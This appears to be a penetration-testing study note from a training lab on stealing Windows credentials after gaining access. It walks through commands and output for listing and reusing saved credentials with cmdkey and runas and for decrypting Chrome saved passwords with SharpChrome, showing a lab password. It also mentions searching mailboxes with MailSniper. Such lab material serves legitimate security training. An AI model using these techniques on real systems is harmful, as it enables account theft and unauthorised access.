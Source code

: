 # Further credential theft

# **Cmdkey Saved Credentials**

```markdown
**we can view saved credentials using:
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
	

then, we can use these saved credentails to login into the user:
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"**
```

# **Browser Credentials**

```markdown
**We can use sharpchrome to enumerate credentials from chrome:
S C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0

[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user

[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0

--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1**
```

## Email

If we gain access to a domain-joined system in the context of a 
domain user with a Microsoft Exchange inbox, we can attempt to search 
the user's email for terms such as "pass," "creds," "credentials," etc. 
using the tool [MailSniper](https://github.com/dafthack/MailSniper).

---